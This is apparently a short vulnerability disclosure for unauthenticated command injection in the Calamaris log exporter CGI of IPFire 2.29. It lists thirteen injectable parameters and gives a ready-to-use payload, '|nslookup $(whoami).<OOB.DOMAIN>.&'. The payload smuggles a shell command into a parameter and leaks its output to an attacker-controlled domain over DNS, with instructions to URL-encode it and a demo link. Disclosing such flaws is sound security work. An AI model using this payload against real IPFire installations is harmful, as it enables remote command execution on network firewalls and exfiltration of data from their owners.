 Description:
The Calamaris log exporter CGI (/cgi-bin/logs.cgi/calamaris.dat) in IPFire 2.29 does not properly sanitize user-supplied input before incorporating parameter values into a shell command. An unauthenticated remote attacker can inject arbitrary OS commands by embedding shell metacharacters in any of the following parameters:

# Command Injection

```
https://192.168.124.92:444/cgi-bin/logs.cgi/calamaris.dat
```
- BYTE_UNIT

- DAY_BEGIN

- DAY_END

- HIST_LEVEL

- MONTH_BEGIN

- MONTH_END

- NUM_CONTENT

- NUM_DOMAINS

- NUM_HOSTS

- NUM_URLS

- PERF_INTERVAL

- YEAR_BEGIN

- YEAR_END


The payload:
```
|nslookup $(whoami).<OOB.DOMAIN>.&
```
Needs to be URL encoded,
replace ```<OOB.DOMAIN>``` with your domain.

This payload requires the DNS and Firewall to be configured to reach a public DNS server.

Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/IPFire-2.29-Command-Injection.gif?raw=true)

